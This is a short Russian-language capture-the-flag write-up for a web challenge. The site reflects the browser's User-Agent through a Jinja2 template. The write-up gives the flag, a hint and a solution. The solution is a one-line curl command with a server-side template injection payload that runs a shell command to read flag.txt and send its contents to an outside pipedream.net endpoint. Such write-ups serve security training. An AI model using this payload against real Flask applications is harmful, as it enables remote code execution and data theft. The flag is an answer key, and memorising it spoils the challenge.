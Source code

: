 # Название: Browser detector
## Описание:
И зачем оно говорит, какой у меня браузер?
### Флаг: 
CTF{th4t_do3snt_l00k_l1k3_a_br0ws3r}
### Хинт:
Слышал что нибудь про уязвимости шаблонизаторов?
### Решение:
Изменяем юзерагент на {{7*7}}, видим, что отрабатывает ssti  
Гуглим, как раскручивать ssti, а именно в jinja2 т.к. сайт на фласке + шаблонизатор можно проверить  
  
Пример решения:
`curl --user-agent "{{ ''.__class__.__mro__[1].__subclasses__()[414]('cat flag.txt | curl --data-urlencode output@- https://eonyz952zg6ppt3.m.pipedream.net', shell=True) }}" http://127.0.0.1:5000/`
